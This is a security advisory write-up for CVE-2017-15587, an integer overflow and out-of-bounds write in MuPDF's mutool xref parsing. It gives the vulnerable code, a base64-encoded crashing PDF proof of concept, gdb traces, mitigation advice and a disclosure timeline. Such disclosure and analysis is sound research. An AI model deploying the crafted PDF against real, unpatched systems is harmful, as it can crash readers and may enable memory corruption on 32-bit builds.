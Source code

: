 ```yaml
---
title: "MuPDF mutools Out-of-Bounds Write Vulnerability (CVE-2017-15587)"
header:
  overlay_image: /assets/images/cve-2017-15587/header.jpg
  overlay_filter: 0.2
  caption: "Photo credit: Life is Strange Stills by Me"
tags:
  - vulnresearch
  - mupdf
  - integeroverflow
  - outofboundswrite
---
```


A vulnerability in mutools PDF parsing functionality allows an attacker to write
controlled data to an arbitrary location in memory due to an integer overflow
when performing truncated xref checks.

On 64 bit builds, the extent of this bug is most likely a denial-of-service
while on 32 bit builds, the bug can possibly be leveraged to gain arbitrary code
execution.

## Affected Versions

The current release (1.11) is affected. Further analysis is required to
determine which versions are also affected by the vulnerability.

## Vulnerability Scores

* Classification: CWE-787: Out-of-Bounds Write
* CVSSv3: 7.3 (AV:L/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:H)

## Description

The vulnerable lines of code are present in the file `source/pdf/pdf-xref.c`.
They are triggered in the `info`, 'show', 'draw', 'clean', 'extract', 'merge',
'portfolio', 'poster', and 'pages' functions of `mutool`.

The attached minimised crashing sample includes the following object that
triggers the vulnerable code path.

```
obj<</[]/Index[2147483647 1]/ 0 0 R/ 0/Size 0/W[]>>stream
```

The issue stems from how the "/Index" entry is parsed and processed. The
"/Index" entry is an array containing pairs of integers that denote the first
object number in the subsection and the number of entries in the subsection.

In the function `pdf_read_new_xref`, the pairs of integers are read and
processed. For each pair of integers, the first number is read as an `int` into
`i0` and the second is read as an `int` into `i1`. The two values are passed
into the `pdf_read_new_xref_section` call.

```c
 958 static pdf_obj *
 959 pdf_read_new_xref(fz_context *ctx, pdf_document *doc, pdf_lexbuf *buf)
 960 {
...
1022     int n = pdf_array_len(ctx, index);
1023    for (t = 0; t < n; t += 2)
1024       {
1025        int i0 = pdf_to_int(ctx, pdf_array_get(ctx, index, t + 0));
1026        int i1 = pdf_to_int(ctx, pdf_array_get(ctx, index, t + 1));
1027        pdf_read_new_xref_section(ctx, doc, stm, i0, i1, w0, w1, w2);
1028    }
...
1050 }
```

In the `pdf_read_new_xref_section` function, some sanity checks are performed to
validate the xref structure. First, the two values have to be non-negative.
Second, it checks that the xref stream is not truncated. For the out-of-bounds
write to occur, the truncation check has to be bypassed.

This can be achieved by skipping the loop in line 927 by causing an integer
overflow in the calculation `i0 +i1`. Since the values are of the type `int and
are signed`, adding `2147483647` and `1` causes the calculation to wrap around
resulting in the value of `-2147483648`.

```c
 915 static void
 916 pdf_read_new_xref_section(fz_context *ctx, pdf_document *doc,
                               fz_stream *stm, fz_off_t i0, int i1, int w0,
                               int w1, int w2)
 917 {
...
 921         if (i0 < 0 || i1 < 0)
 922                 fz_throw(ctx, FZ_ERROR_GENERIC,
                              "negative xref stream entry index");
...
 927         for (i = i0; i < i0 + i1; i++)
 928         {
...
 934             if (fz_is_eof(ctx, stm))
 935                fz_throw(ctx, FZ_ERROR_GENERIC, "truncated xref stream");
...
 952         }
...
 955 }
```

Later on in the execution, the `ensure_solid_xref` function is called to merge
xref subsections. The field `sub->start` contains the value of `i0` and the
field `sub->len` contains the value in `i1`. `new_sub->table` holds an address
in the heap. In the above example on a 64 bit build, the assignment will resolve
to `new_sub->table[0x7fffffff] = sub->table[0];`. The type of `new_sub->table`
is `pdf_xref_entry` which is of size 0x20 which means that the dereference
happens in multiples of 0x20. This causes the out-of-bounds write.

```c
 162 /* Ensure that the given xref has a single subsection
 163  * that covers the entire range. */
 164 static void
 165 ensure_solid_xref(fz_context *ctx, pdf_document *doc, int num, int which)
 166 {
...
 199                 for (i = 0; i < sub->len; i++)
 200                 {
 201                         new_sub->table[i+sub->start] = sub->table[i];
 202                 }
...
 211 }
```

Due to the nature of constraints, `i1` is bounded by the amount of memory
possible to be allocated by `calloc`. Thus, `i0` is restricted to a very large
number.

On a 64 bit build, this would most likely cause a crash since the write will
land in unaddressable memory. On a 32 bit build, the integer wrap around can be
leveraged again to put the write in valid addressable regions and possibly
achieve arbitrary code execution or cause other unspecified impact.

## Mitigation

A quick fix for the issue would be to include a check for the integer overflow
in `pdf_read_new_xref_section`. Further analysis is required to identify
systemic issues resulting from the unsafe use of signed integers before
suggesting a robust fix.

## Proof of Concept

The file `crash.pdf` is included here as a base64 encoded file.

```
JVBERi0wMDAwMDAgMCBvYmo8PC9bXS9JbmRleFsyMTQ3NDgzNjQ3IDFdLyAwIDAgUi8gMC9TaXpl
IDAvV1tdPj5zdHJlYW0Nc3RhcnR4cmVmMTAK
```

On a 64 bit build of mupdf, the program crashes on the abovementioned write.

```shell
$ gdb ./mutool
(gdb) r info manipulate.pdf
Starting program: /vagrant/projects/mupdf/mutool info manipulate.pdf
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
manipulate.pdf:
warning: line feed missing after stream begin marker (0 0 R)

Program received signal SIGSEGV, Segmentation fault.
0x00000000004b9ec6 in ensure_solid_xref (ctx=0x2962010, doc=0x2972ba0, num=1,
                      which=0) at source/pdf/pdf-xref.c:201
201                new_sub->table[i+sub->start] = sub->table[i];
(gdb) p *sub
$1 = {next = 0x0, len = 1, start = 2147483647, table = 0x29850d0}
(gdb) p *new_sub
$2 = {next = 0x0, len = 1, start = 0, table = 0x2985120}
(gdb) x/i $rip
=> 0x4b9ec6 <ensure_solid_xref+433>:    mov    %rcx,(%rax)
(gdb) info reg rax rcx
rax            0x1002985100    68763013376
rcx            0x0    0
```

Whereas on a 32 bit build, the write address wraps around into a valid heap
memory region and the out-of-bounds write succeeds.

```shell
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /vagrant/projects/mupdf/mutool-32 info manipulate.pdf
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
manipulate.pdf:
warning: line feed missing after stream begin marker (0 0 R)

Breakpoint 1, ensure_solid_xref (ctx=0xa32a008, doc=0xa336948, num=1, which=0)
              at source/pdf/pdf-xref.c:201
201                new_sub->table[i+sub->start] = sub->table[i];
(gdb) p *sub
$1 = {next = 0x0, len = 1, start = 2147483647, table = 0xa348c60}
(gdb) p *new_sub
$2 = {next = 0x0, len = 1, start = 0, table = 0xa348c98}
(gdb) info reg eax ecx
eax            0x1    1
ecx            0xa32a40c    171090956
(gdb) x/xw 0xa32a40c
0xa32a40c:    0x00000000
(gdb) c
Program received signal SIGSEGV, Segmentation fault.
0x080e6a21 in pdf_read_new_xref (ctx=0xa32a008, doc=0xa336948, buf=0xa336a20)
              at source/pdf/pdf-xref.c:1031
1031            entry->ofs = ofs;
(gdb)
```

## Credit

This issue was discovered by Terry Chia (@ayrx) and Jeremy Heng (@nn\_amon).

## Timeline

* 28 Sept 2017 - Discovery of the vulnerability.
* 28 Sept 2017 - [Disclosure](https://bugs.ghostscript.com/show_bug.cgi?id=698605)
  of vulnerability to the vendor and to Debian Security Team.
* 16 Oct 2017 - Vendor fixes the issue in [git
  commit](http://git.ghostscript.com/?p=mupdf.git;h=82df2631d7d0446b206ea6b434ea609b6c28b0e8).
* 18 Oct 2017 - CVE-2017-15587 assigned to the issue.
* 18 Oct 2017 - Publication of the vulnerability details.
